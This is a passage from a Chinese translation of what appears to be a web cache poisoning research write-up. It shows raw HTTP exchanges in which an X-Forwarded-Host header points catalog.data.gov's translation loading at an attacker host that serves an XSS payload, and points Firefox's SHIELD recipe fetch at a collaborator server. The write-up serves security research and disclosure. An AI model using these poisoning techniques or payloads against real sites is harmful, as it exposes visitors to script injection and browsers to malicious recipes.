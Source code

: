 我们已经控制了'data-site-root'属性，但我们不能突破以获得XSS，并且不清楚这个属性甚至用于什么。为了找到答案，我在Burp中创建了一个匹配并替换规则，为所有请求添加了“X-Forwarded-Host：id.burpcollaborator.net”标头，然后浏览了该站点。当加载某些页面时，Firefox会将JavaScript生成的请求发送到我的服务器：
```
GET /api/i18n/en HTTP/1.1
Host: id.burpcollaborator.net
```
该路径表明，在网站的某个地方，有一些JavaScript代码使用data-site-root属性来决定从哪里加载一些国际化数据。我试图通过获取https://catalog.data.gov/api/i18n/en来找出这些数据应该是什么样的，但只是收到了一个空的JSON响应。幸运的是，将'en'改为'es'给出了一个线索：
```
GET /api/i18n/es HTTP/1.1
Host: catalog.data.gov

HTTP/1.1 200 OK
…
{"Show more":"Mostrar más"}

```
该文件包含用于将短语翻译为用户所选语言的地图。通过创建我们自己的翻译文件并使用缓存中毒指向用户，我们可以将短语翻译成漏洞利用：
```
GET  /api/i18n/en HTTP/1.1
Host: portswigger-labs.net

HTTP/1.1 200 OK
...
{"Show more":"<svg onload=alert(1)>"}
```
最终的结果，任何查看包含“显示更多”文字的网页的人都会被利用。

### 劫持Mozilla SHIELD
我配置的“X-Forwarded-Host”匹配/替换规则可帮助解决上一个漏洞，这会产生意想不到的副作用。除了来自catalog.data.gov的互动之外，我还收到了一些非常神秘的内容：
```
GET /api/v1/recipe/signed/ HTTP/1.1
Host: xyz.burpcollaborator.net
User-Agent: Mozilla/5.0 … Firefox/57.0
Accept: application/json
origin: null
X-Forwarded-Host: xyz.burpcollaborator.net

```

在[“零”的起源是由本身相当罕见](https://portswigger.net/blog/exploiting-cors-misconfigurations-for-bitcoins-and-bounties)之前，我从来没有见过一个浏览器的问题完全小写`Origin header`。筛选代理历史记录显示，罪魁祸首是Firefox本身。Firefox曾试图获取一份“recipes”列表，作为其[SHIELD](https://wiki.mozilla.org/Firefox/Shield)系统的一部分，用于静默安装扩展以用于营销和研究目的。该系统可能因强行分发“Mr Robot”扩展而闻名，引起了[消费者的强烈反对](https://www.cnet.com/news/mozilla-backpedals-after-mr-robot-firefox-misstep/)。

无论如何，看起来X-Forwarded-Host标头欺骗了这个系统，将Firefox引导到我自己的网站以获取`recipes`：
```
GET /api/v1/ HTTP/1.1
Host: normandy.cdn.mozilla.net
X-Forwarded-Host: xyz.burpcollaborator.net

HTTP/1.1 200 OK
{
  "action-list": "https://xyz.burpcollaborator.net/api/v1/action/",
  "action-signed": "https://xyz.burpcollaborator.net/api/v1/action/signed/",
  "recipe-list": "https://xyz.burpcollaborator.net/api/v1/recipe/",
  "recipe-signed": "https://xyz.burpcollaborator.net/api/v1/recipe/signed/",
   …
}
```
